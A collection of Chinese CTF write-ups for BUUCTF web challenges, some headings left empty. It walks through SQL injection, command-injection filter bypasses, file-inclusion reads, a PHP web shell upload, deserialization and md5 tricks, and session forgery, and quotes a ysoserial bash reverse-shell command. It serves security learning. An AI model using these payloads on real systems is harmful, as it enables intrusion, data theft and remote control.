### 67. [ACTF新生赛2020]NTFS数据流


### 68. sqltest


### john-in-the-middle

### [ACTF新生赛2020]swp

### [UTCTF2020]docx

### [GXYCTF2019]SXMgdGhpcyBiYXNlPw==

### 喵喵喵

### 间谍启示录

## Web

### 1. [极客大挑战 2019]EasySQL

简单SQL注入，有引号闭合，直接输入万能密码`1' or 1=1#`即可得到flag


### 2. [极客大挑战 2019]Havefun

burp拦截，查看到源码中有这么一段注释

```php+HTML
                <!--
        $cat=$_GET['cat'];
        echo $cat;
        if($cat=='dog'){
            echo 'Syc{cat_cat_cat_cat}';
        }
        -->
```

构造GET类型的请求，payload：`cat=dog`试试，发现可以得到flag：


### 3. [HCTF 2018]WarmUp

访问靶机是一张滑稽图片，查看网页源代码发现提示：

```php+HTML
<!--source.php-->
```

访问source.php看看，得到了源代码：

```php+HTML
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }  
?>
```

代码审计，首先需要传入一个file参数，此参数的值需要在白名单`$whitelist = ["source"=>"source.php","hint"=>"hint.php"];`中，尝试传入hint.php，得到提示`flag not here, and flag in ffffllllaaaagggg`；

继续构造payload，`emmm::checkFile`会做两次问好过滤，所以需要在后面加上问号，另外直接传入`/source.php?file=hint.php?ffffllllaaaagggg`没有任何回显，需要向上四层目录才能看到flag，这也可能是为什么是ffffllllaaaagggg，复写四次的原因吧。。。

最终payload：`/source.php?file=hint.php?../../../../../ffffllllaaaagggg`

另，代码中用到的一些php函数含义：

- `is_string()`：检测变量是否是字符串
- `isset()`：检测变量是否已设置并且非 NULL
- `in_array(要搜索的值,要搜索的数组)`：搜索数组中是否存在指定的值
- `mb_substr($page，n，m)`：返回page中从第n位开始，到n+m位字符串的值
- `mb_strpos(要被检查的字符串,要搜索的字符串)`：查找字符串在另一个字符串中首次出现的位置
- `urldecode()`：将url编码后的字符串还原成未编码的样子

### 4. [ACTF2020 新生赛]Include

页面上有个跳转按钮跳转以后显示`Can you find out the flag`，加的payload是`?file=flag.php`，文件包含，应该是做了过滤，使用伪协议绕过查看到flag，最终payload：

```
/?file=php://filter/read=convert.base64-encode/resource=flag.php
```


得到的返回base64解密即可。

### 5. [ACTF2020 新生赛]Exec

命令执行，运用linux管道符`|`即可，最终拼接出来的命令为`127.0.0.1|cat /flag`，直接执行即可查看flag


### 6. [GXYCTF2019]Ping Ping Ping

访问看到ip=?，估计是命令执行，传入一个ls看看：


发现有flag.php后尝试cat出内容，提示`fxck your space!`，应该是对payload有空格过滤，常用的绕过过滤空格的方法：

- {cat,flag.txt}
- cat${IFS}flag.txt
- cat$IFS$9flag.txt: $IFS$9 $9指传过来的第9个参数
- cat<flag.txt
- cat<>flag.txt
- kg=$'\x20flag.txt'&&cat$kg
  

```php+HTML
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}

?>
```

代码审计，确定过滤了许多条件，具体为：

- 第一个if里的\x为十六进制开头的字符；
- 第二个if匹配的是空格；
- 第三个if匹配的是bash；
- 第四个if匹配的是flag。.是匹配一个不是\n的字符，*是前一个匹配符匹配0到无数次。简单理解就是在一个字符串（就是我们要写的payload）里f,l,a,g这四个字符不能顺序出现在任意位置。不管中间隔了什么，如果有a,l,g,f四个字符，他们连起来是flag，就会die("fxck your flag!");

百度了下，大概有三种解法：

- **变量拼接字符串**，通过拼接的方式构造flag，绕过过滤，构造的payload：`/?ip=127.0.0.1;a=g;cat$IFS$9fla$a.php`
- **内联执行**
  - 内联函数是指将指定的函数体插入并取代每一处调用该函数的地方，在linux中，反引号可以用作内联执行，执行输出结果；也就是说 *cat &#96;ls*&#96; 会执行ls输出 index.php 和 flag.php ，然后再执行 cat flag.php;cat index.php;
  - 最终构造payload：/?ip=127.0.0.1;cat$IFS$9&#96;ls&#96;
- **sh命令来执行**，使用 base64 编码的方式来绕过 flag 过滤
  - `|`是管道符，意思为把`|`前的语句执行结果作为`|`后面的输入数据
  - 将`cat flag.php`进行base64编码后为Y2F0IGZsYWcucGhw，再放入payload中解密即可绕过过滤；
  - 最终构造payload：`/?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh`


### 7. [强网杯 2019]随便注

依次尝试 `1`、`1'`、`1' #`，分别是有输出、报错以及有输出，证明是存在SQL注入，并且是单引号闭合；


接下来分析有几列，依次输入`1' order by 1;#`、`1' order by 2;#` ……直到报错，最终可以发现只有两行（order by 3的时候报错了）


尝试union注入，发现select关键字被过滤了


百度一下发现用堆叠注入

> ​    在SQL中，分号（;）是用来表示一条sql语句的结束。试想一下我们在 ; 结束一个sql语句后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。而union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于union 或者union all执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。例如以下这个例子。用户输入：1; DELETE FROM products服务器端生成的sql语句为：（因未对输入的参数进行过滤）Select * from products where productid=1;DELETE FROM products当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。

使用`1' ; show databases;#`查看数据库


查看表，使用`1' ; show tables ;#`


words表和那个数字表都要逐一查看列来分析

```sql
1' ; show columns from words;#
1' ; show columns from `1919810931114514`;#
```

- 注意，数字表名要加上反引号


可以看到words表里有两个属性，即两列：id 和data；而1919810931114514表里只有一个属性列，说明输入框可能查询的就是words表（后台sql语句可能为 ` select id,data from words where id=`）

获取flag可以先把words改名为其他，191这个表改名为words，然后再添加id字段，将flag字段改为data，这样就可以利用程序中已经存在的select语法帮我们进行查询，具体如下：

- 先将 words 改为别的名字 比如 words2 或者其他
- 然后将 1919810931114514 改为 words
- 把属性名flag改为id，然后用`1’ or 1=1;# `显示flag出来

构造payload：

```sql
1';rename table `words` to words2;rename table `1919810931114514` to `words`;alter table words change flag id varchar(100);#
```

再次查看words表的列，`1' ; show columns from words;#`，可以看到列名以及被我们修改了


最后使用万能密码`1' or 1=1;#`即可输出flag

### 8. [SUCTF 2019]EasySQL

输入万能密码`1' or 1=1;#`发现有过滤（显示nonono），先fuzz（Burp的Intruder）看下有哪些能用的：


使用的fuzz 字典是`fuzzdb\attack\sql-injection\detect\xplatform.txt`，其中回包长度528和527的是可以使用的，发现了`;`没有被过滤，可以使用堆叠注入。

查看数据库和表，分别构造payload：

```sql
1;show databases;
1;use ctf;show tables;
```





想着直接`1;use ctf; show columns from Flag;`查看Flag，但是很遗憾过滤了。

百度了下大佬的做法，主要有两种，无论哪种都需要先分析出可能的SQL语句；

首先这里的`query`参数无论我们输入数字什么都只会回显`Array([0]= > 1)`，输入字母不会显，但是也没显示是过滤的，所以`query`的值如果为非数字则无法正确查询得到数据回显，那么查询语句就应该长这样：

```php
$sql = "select ".$post['query']."||flag from Flag";

```

mysql知识点：**sql_mode** 

- sql_mode 设置了 PIPES_AS_CONCAT 时，|| 就是字符串连接符，相当于CONCAT() 函数
- 当 sql_mode 没有设置 PIPES_AS_CONCAT 时 （默认没有设置），|| 就是逻辑或，相当于OR函数

因此派生出来两种解法：

- 把||作为连接符，构造payload`1;set sql_mode=PIPES_AS_CONCAT;select 1`，最终的sql语句是`select 1;set sql_mode=PIPES_AS_CONCAT;select 1||flag from Flag;`，如此flag便会和字符1拼接显示
- 把||作为逻辑或，构造payload`*,1`，最终的sql语句是`select *，1||flag from Flag;`，`1||flag`很明显会被短路成1，最终等效于`select *，1 from Flag;`，flag会直接显示

### 9. [极客大挑战 2019]Secret File

访问页面没发现什么，CTRL A全选发现了一个跳转按钮


点击跳转按钮跳到了另外一个界面，继续跳转但没有显示什么，提示退回去看，burp抓包即可


看到注释

```php+HTML
<!--
   secr3t.php        
-->
```

访问界面，代码审计

```php+HTML
<html>
    <title>secret</title>
    <meta charset="UTF-8">
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
</html>
```

- `strstr(str1,str2) `函数：用于判断字符串str2是否是str1的子串
  - 如果是，则该函数返回str2在str1中首次出现的地址；
  - 否则，返回NULL；
- `stristr`与strstr 的区别就是stristr不分区大小写

过滤了那么多，一眼伪协议，payload：`secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php`后base64解密即可；

### 10. [极客大挑战 2019]LoveSQL

万能密码登录后发现是union显注，order by下发现有三列，经典流程：

爆库：

```sql
1' union select 1,database(),3#
```

爆表：

```sql
1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema='geek'#
```

爆列：

```sql
1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_schema='geek' and table_name='l0ve1ysq1'#
```

爆数据：

```sql
1' union select 1,database(),group_concat(id,username,password) from l0ve1ysq1#
```

得到flag

### 11. [极客大挑战 2019]Http

打开页面，CTRL U看下源码，有一个跳转：


跳转过去提示：

```
It doesn't come from 'https://Sycsecret.buuoj.cn'
```

百度了下是要在http header中增加一些字段来伪造信息（题目名是http也有提示）；

burp抓包增加`Referer:https://Sycsecret.buuoj.cn `伪造是从哪来，继续错误提示：

```
Please use "Syclover" browser
```

增加http header：`User-Agent: Syclover`，发送得到新的提示：

```
No!!! you can only read this locally
```

增加header ：`X-Forwarded-For:127.0.0.1`，发送即可得到flag；

最终payload：

```http
GET /Secret.php HTTP/1.1
Host: node4.buuoj.cn:29921
Referer:https://Sycsecret.buuoj.cn 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Syclover
X-Forwarded-For:127.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

### 12. [极客大挑战 2019]Knife

Web shell，直接蚁剑连接，密码是提示的Syc


直接查看flag文件即可


### 13. [极客大挑战 2019]Upload

文件上传，先试试经典一句话木马，过滤了`<?`，转换为以下格式：

```php
<script language="php">eval($_REQUEST[shell])</script>
```

添加gif文件头`GIF89a?`，burp抓包：


- 将文件名修改为`11.phtml`，绕过常规php文件后缀检测
- 将文件类型修改为：`image/jpeg`

上传完毕蚁剑连接即可得到flag。

### 14. [ACTF2020 新生赛]Upload

同上，构造的payload也一样，不过上传完毕后链接的地址略有不同


### 15. [极客大挑战 2019]BabySQL

和10. [极客大挑战 2019]LoveSQL 类似，不过做了很多过滤，双写过滤关键字绕过即可

爆表：

```sql
1' uniounionn seselectlect 1,database(),group_concat(table_name) frofromm infoorrmation_schema.tables whwhereere table_schema= database()#
```

爆列：

```sql
1' uniunionon selecselectt 1,database(),group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_schema='geek' anandd table_name='b4bsql'#
```

爆数据：

```sql
1' uniounionn seleselectct 1,database(),group_concat(id,username,passwoorrd) frfromom b4bsql#
```

得到flag

### 16. [极客大挑战 2019]PHP

页面一只小猫，有一说一还挺可爱的，提示网站可能有备份，加上提示是php，直接dirsearch扫描：

```shell
python dirsearch.py -u http://214fbaa8-3146-46f2-9b62-8cbaaacc3635.node4.buuoj.cn:81/ -e php
```

- -u的url要以/结尾
- -e php代表是php语言


扫描出了 www.zip，url下载解压；

> 常见的网站源码备份文件后缀:
>
> tar.gz，zip，rar，tar
>
> 常见的网站源码备份文件名：
>
> web，website，backup，back，www，wwwroot，temp

有三个php，文件，代码审计：

index.php(关键代码)

```php
    <?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
    ?>
```

- 包含文件class.php；
- 接收GET传参select；
- 反序列化select参数；
  - unserialize — 从已存储的表示中创建 PHP 的值列化后的字符串。若被反序列化的变量是一个对象，在成功地重新构造对象之后，PHP 会自动地试图去调用 __wakeup()成员函数（如果存在的话）；

class.php

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

- 包含 flag.php

- 设置两个私有变量 ，利用` __construct `构造函数来进行构造；；

- `__wakeup() `让 username 变量等于 guest；

- 在类结束的时候，调用`__desctruct()`函数 ，需要username为admin并且password为100才可以输出flag；
  

flag.php

```php
<?php
$flag = 'Syc{dog_dog_dog_dog}';
?>

```

<u>综上，需要通过GET方式传入select参数，select参数为一个序列化后的php类，需要包含username=admin、password=100，并且需要绕过`__wakeup`方法的执行；</u>

这里存在一个**CVE漏洞**：**当成员属性数目大于实际数目时可绕过wakeup方法**；

构造序列化对象：

- 方法一：跑php脚本

```php
<?php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
}
$a = new Name('admin', 100);
var_dump(serialize($a));
?>
```


- 方法二：根据序列化的语法构造，手动序列化一个对象

```
O:4:"User":2:{s:3:"age";i:20;s:4:"name";s:4:"daye";}

对象类型:长度:"类名":类中变量的个数:{类型:长度:"值";类型:长度:"值";......}
# 变量及对象类型参考
a - array         b - boolean

d - double         i - integer

o - common object     r - reference

s - string         C - custom object

O - class         N - null

R - pointer reference   U - unicode string
```

另外，**private 声明的字段在序列化时，需要注意**：

- private声明的字段为私有字段，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见。
- 因此私有字段的字段名在序列化时，类名和字段名前面都会加上\0（即%00）的前缀。字符串长度也包括所加前缀的长度，如下

```php
O:4:"User":2:{s:9:"%00User%00age";i:20;s:10:"%00User%00name";s:4:"daye";}   # 9=7+2  10=8+2  其中2为两个前缀
```

所以最终payload：

```
?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

### 17. [ACTF2020 新生赛]BackupFile

访问提示`Try to find out source file!`，直接dirsearch扫描：


发现存在备份文件index.php.bak，下载下来，代码审计

```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}


```

- GET传入一个数字类型的参数，和`123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3`弱相等即可；

在php中`==`为弱相等，即当整数和字符串类型相比较时。会先将字符串转化为整数然后再进行比较。比如a=123和b=123admin456进行`==`比较时。则b只会截取前面的整数部分，即b转化成123，此时这里的`a == b`是返回True。

最终构造payload：

```
?key=123
```

### 18. [RoarCTF 2019]Easy Calc

CTRL U查看源码

```html
<!--I've set up WAF to ensure security.-->
<script>
    $('#calc').submit(function(){
        $.ajax({
            url:"calc.php?num="+encodeURIComponent($("#content").val()),
            type:'GET',
            success:function(data){
                $("#result").html(`<div class="alert alert-success">
            <strong>答案:</strong>${data}
            </div>`);
            },
            error:function(){
                alert("这啥?算不来!");
            }
        })
        return false;
    })
</script>
```

发现设置有waf，并且会去calc.php计算，访问calc.php直接展示了源码：

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

可以看到最后有个eval可以执行命令，不过过滤了很多东西，包括单、双引号和反引号，`$`和`[]`也被过滤了，通过参数的绕过方式行不通了，但是还可以用chr()的形式来输入参数。

构造好payload后访问，却发现被waf拦截了：


此处需要运用到**PHP的字符串解析特性**：在参数前加一个空格，php读取时会去掉空格，但waf就无法检测到了。

先通过`scandir`来获取flag路径，再通过`file_get_contents`获取内容:

```
calc.php?%20num=var_dump(scandir(chr(47)))
calc.php?%20num=var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)));
```


- PHP字符串解析漏洞的理解：
  - PHP会将请求字符串（在URL或正文中）转换为内部`$_GET`或的关联数组`$_POST`，例如：`/?foo=bar`变成`Array([foo] => “bar”`；
  - 请求字符串在解析的过程中会将某些字符删除或用下划线代替。例如，`/?%20news[id%00=42`会转换为`Array([news_id] => 42)`；
- PHP需要将所有参数转换为有效的变量名，因此在解析查询字符串时，它会做两件事：
  - 删除空白符
  - 将某些字符转换为下划线（包括空格）

### 19. (TBD)[网鼎杯 2020 朱雀组]Think Java

使用IDEA打开给的class文件：


发现导入了swagger-ui，那么便存在在线测试接口`swagger-ui.html`，访问看看：


存在三个访问接口，而第三个`/common/test/sqlDict`对应于给的class中的：

```java
    @PostMapping({"/sqlDict"})
    @Access
    @ApiOperation("为了开发方便对应数据库字典查询")
    public ResponseResult sqlDict(String dbName) throws IOException {
        List<Table> tables = SqlDict.getTableData(dbName, "root", "abc@12345");
        return ResponseResult.e(ResponseCode.OK, tables);
    }
```

代码审计：

对于dbName这个变量，在做数据库链接和数据查询的时候均是直接字符串拼接，所以存在SQL注入：

```java
dbName = "jdbc:mysql://mysqldbserver:3306/" + dbName;
......
String sql = "Select TABLE_COMMENT from INFORMATION_SCHEMA.TABLES Where table_schema = '" + dbName + "' and table_name='" + TableName + "';";

```

爆库：

```
dbName=myapp#' union select group_concat(SCHEMA_NAME)from(information_schema.schemata)#
```


爆表：

```
dbName=myapp#' union select group_concat(table_name)from(information_schema.tables)where(table_schema='myapp')#
```

爆列：

```
dbName=myapp#' union select group_concat(column_name)from(information_schema.columns)where((table_schema='myapp')and(table_name='user'))#
```

爆值：

```
dbName=myapp#' union select group_concat(id)from(user)#

dbName=myapp#' union select group_concat(name)from(user)#

dbName=myapp#' union select group_concat(pwd)from(user)#
```

如此就获得了一个用户信息，序号为`1`，name为`admin`，密码为`admin@Rrrr_ctf_asde`；

登录（输入用户名密码的json字符串，在`/common/user/login`处try it out）：


获得一串认证字符串：

```
Bearer rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFuZy9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDMjyPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABWFkbWlu
```

百度下需要对着串认证字符串进行序列化分析：

> 下方的特征可以作为序列化的标志参考:
> 一段数据以rO0AB开头，你基本可以确定这串就是Java序列化base64加密的数据。
> 或者如果以aced开头，那么他就是这一段Java序列化的16进制。

使用burp 的**java Deserialization Scanner**插件对其进行分析，分析出可能存在的漏洞：


接下来需要使用ysoserial来反弹shell，由于没有公网ip，所以暂时跳过，贴下百度到的解答：

---

使用工具：ysoserial

我们这里用到的命令如下：

```shell
java -jar ysoserial-all.jar ROME "bash -c {echo,base64编码后的内容}|{base64,-d}|{bash,-i}" > 1.bin
```


进行base64编码的内容是：

```shell
bash -i >& /dev/tcp/vpsip/端口 0>&1
```

- 将vpsip和端口换成自己服务器ip和正在监听的端口之后，再对其进行base64编码。

将编码后的内容填充到命令上，再通过ysoserial获得bin文件，拿到文件之后，我们还需要对其进行base64加密，这里使用的一个Python脚本。注意根据自己bin文件名字去更改代码，而且还要记得把bin文件和代码放在同一目录。输出打印的一大串字符串就是payload。

```python
import base64
file=open("1.bin","rb")

now = file.read()
ba = base64.b64encode(now)
print(ba)
file.close()
```


获得payload之后，先在咱们的服务器上监听端口之后，在另一个接口处输入payload，来进行反弹shell，注意开头的Bearer保留。


---

### 20. [RoarCTF 2019]Easy Java

访问靶机，有一个登录页面，以为是sql注入发现不能成功，点击下方的help跳转：


跳转出来并不能下载：


转成POST请求发送：


可以下载不过flag并不在其中，查看是否存在`WEB-INF/web.xml`泄露，payload改为：

```
filename=WEB-INF/web.xml
```

可以下载，查看源码：

```xml
    <servlet>
        <servlet-name>FlagController</servlet-name>
        <servlet-class>com.wm.ctf.FlagController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>FlagController</servlet-name>
        <url-pattern>/Flag</url-pattern>
    </servlet-mapping>
```

试试直接访问`/Flag`，发现500，继续把FlagController的class字节码下载下来：

```
filename=WEB-INF/classes/com/wm/ctf/FlagController.class
```

IDEA打开：

```java
String flag = "ZmxhZ3tlYWNiZTQxMS00MTc4LTQ5M2YtODQwZS0xNzU4NTY3YTkyNzV9Cg==";
```

base64解密下即为flag。


### 21. [极客大挑战 2019]BuyFlag

进入pay.php查看源代码，代码审计：

```html
</body>
<!--
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
-->
</html>
```

需要传一个password，绕过弱比较：


money传科学计数法


### 22. [BJDCTF2020]Easy MD5

随便输入一个1，burp抓包，response头中有提示：

```http
HTTP/1.1 200 OK
Server: openresty
Date: Wed, 03 Jan 2024 08:12:54 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Hint: select * from 'admin' where password=md5($pass,true)
X-Powered-By: PHP/7.3.13
Cache-Control: no-cache
Content-Length: 3107
```

此处需要用到`ffifdyop`绕过，绕过原理是：
`ffifdyop` 这个字符串被 md5 哈希了之后会变成 `276f722736c95d99e921722cf9ed621c`，这个字符串前几位刚好是 ' `or '6`
而 Mysql 刚好又会把 hex 转成 ascii 解释，因此拼接之后的形式是 `select * from 'admin' where password='' or '6xxxxx'`，等价于 or 一个永真式，因此相当于万能密码，可以绕过md5()函数；

绕过之后进入另外一个页面：


CTRL U代码审计：

```php
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->
```

需要GET传入a、b两个参数，要求md5弱相等，传入数组即可：

```
?a[]=1&b[]=2
```

进入了新的页面，还是代码审计：

```php
 <?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
} 
```

md5碰撞（0e开头），一些md5碰撞值：

```
QNKCDZO
0e830400451993494058024219903391
 
s878926199a
0e545993274517709034328855841020
 
s155964671a
0e342768416822451524974117254469
 
s214587387a
0e848240448830537924465865611904
 
s214587387a
0e848240448830537924465865611904
 
s878926199a
0e545993274517709034328855841020
 
s1091221200a
0e940624217856561557816327384675
 
s1885207154a
0e509367213418206700842008763514
 
s1502113478a
0e861580163291561247404381396064
 
s1885207154a
0e509367213418206700842008763514
 
s1836677006a
0e481036490867661113260034900752
 
s155964671a
0e342768416822451524974117254469
 
s1184209335a
0e072485820392773389523109082030
 
s1665632922a
0e731198061491163073197128363787
 
s1502113478a
0e861580163291561247404381396064
 
s1836677006a
0e481036490867661113260034900752
 
s1091221200a
0e940624217856561557816327384675
 
s155964671a
0e342768416822451524974117254469
 
s1502113478a
0e861580163291561247404381396064
 
s155964671a
0e342768416822451524974117254469
 
s1665632922a
0e731198061491163073197128363787
 
s155964671a
0e342768416822451524974117254469
 
s1091221200a
0e940624217856561557816327384675
 
s1836677006a
0e481036490867661113260034900752
 
s1885207154a
0e509367213418206700842008763514
 
s532378020a
0e220463095855511507588041205815
 
s878926199a
0e545993274517709034328855841020
 
s1091221200a
0e940624217856561557816327384675
 
s214587387a
0e848240448830537924465865611904
 
s1502113478a
0e861580163291561247404381396064
 
s1091221200a
0e940624217856561557816327384675
 
s1665632922a
0e731198061491163073197128363787
 
s1885207154a
0e509367213418206700842008763514
 
s1836677006a
0e481036490867661113260034900752
 
s1665632922a
0e731198061491163073197128363787
 
s878926199a
0e545993274517709034328855841020
```

还是利用数组来构造POST传参：


### 23. [HCTF 2018]admin

注册一个账号登录，在修改密码那里CTRL U查看源码，有提示：

```html
<!-- https://github.com/woadsl1234/hctf_flask/ -->
```

**方法一 flask session 伪造**
原因是flask的session是存储在客户端的cookie中的即存储在本地，因此可以尝试进行伪造。且flask仅仅对session数据进行了签名。即通过hmac算法计算数据的签名，将签名附在数据后，用“.”分割。众所周知的是，签名的作用是防篡改，而无法防止被读取。而flask并没有提供加密操作，所以其session的全部内容都是可以在客户端读取的，即可以利用脚本可以解出session的内容

解密脚本

```python
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode
 
def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)
 
    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True
 
    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                         'an exception')
 
    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                             'decoding the payload')
 
    return session_json_serializer.loads(payload)
 
if __name__ == '__main__':
    print(decryption(sys.argv[1].encode()))   
```


解密出来的文本：

```
{'_fresh': True, '_id': b'6461d3f7692815ee86b850da1f7f6489815e82ebbe14f56b060cda8537ff5d72835d1933578f2ad36f8e3bbf33379cb86de17c2cd0ecce8b2ff7d36702d6a009', 'csrf_token': b'a9bb69061aad4c4f3e9e39eada76c73d0b87b702', 'image': b'ZXeY', 'name': 'a', 'user_id': '10'}
```

- `'name': 'a'`，改成`'name': 'admin'`再加密即可

加密密钥在源码中看出为ckj123：


加密：

```shell
python flask_session_cookie_manager3.py encode -s "ckj123" -t "{'_fresh': True, '_id': b'6461d3f7692815ee86b850da1f7f6489815e82ebbe14f56b060cda8537ff5d72835d1933578f2ad36f8e3bbf33379cb86de17c2cd0ecce8b2ff7d36702d6a009', 'csrf_token': b'a9bb69061aad4c4f3e9e39eada76c73d0b87b702', 'image': b'ZXeY', 'name': 'admin', 'user_id': '10'}"
```


修改cookie刷新即可看到flag：


### 24. [MRCTF2020]你传你🐎呢

尝试上传一句话，有过滤，使用.htaccess来绕过：


```
<FilesMatch "abc" >
SetHandler application/x-httpd-php
</FilesMatch>
```

意为将当前目录下文件名为abc的文件当成php来解析；

然后再上传一句话：


蚁剑连接即可查看flag

### 25. [护网杯 2018]easy_tornado

同adword 31. easytornado

### 26. [ZJCTF 2019]NiZhuanSiWei

进入页面代码审计：

```php
 <?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```

- `if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf"))`
  - 使用input伪协议绕过：`/?text=php://input `
  - 
  - 使用data伪协议（base64加密）绕过：`/?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=`
- `if(preg_match("/flag/",$file))`：正则过滤了flag又提示是useless.php，使用伪协议绕过

综合以上，payload暂为：

````
/?text=php://input&file=php://filter/read=convert.base64-encode/resource=useless.php
````


返回的内容base64解密下：

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  

```

序列化脚本：

```php
<?php
class Flag{
    public $file="flag.php"; 
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    } 
}
$a = new Flag();
$str = serialize($a);
var_dump($str);
var_dump(base64_encode($str));
?>
```


最终payload：

```
/?text=php://input&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

